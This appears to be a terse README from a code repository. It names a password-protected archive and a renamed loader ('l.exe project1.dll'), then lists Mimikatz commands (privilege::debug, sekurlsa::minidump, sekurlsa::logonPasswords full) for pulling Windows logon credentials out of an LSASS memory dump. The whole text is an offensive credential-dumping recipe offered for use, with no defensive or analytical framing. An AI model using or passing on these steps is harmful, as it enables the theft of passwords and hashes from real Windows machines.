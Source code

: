 # tools
7.zip 123456 use：l.exe project1.dll
1、privilege::debug
2、sekurlsa::minidump 1.bin
3、sekurlsa::logonPasswords full
